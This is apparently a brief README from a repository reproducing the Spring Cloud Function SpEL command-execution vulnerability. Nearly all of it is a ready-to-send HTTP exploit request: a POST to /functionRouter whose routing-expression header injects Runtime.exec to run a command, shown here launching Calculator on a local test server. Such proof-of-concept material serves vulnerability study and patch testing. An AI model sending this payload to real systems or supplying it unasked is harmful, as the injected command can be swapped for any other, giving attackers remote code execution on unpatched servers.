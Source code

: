## Spring-Cloud-Function-Spel命令执行漏洞

> environment：jdk17

start:
```
idea 运行SampleApplication
```

exp:
```
POST /functionRouter HTTP/1.1
Host: 127.0.0.1:8001
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("/System/Applications/Calculator.app/Contents/MacOS/Calculator")
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

xxx


```
![img.png](images/1.png)


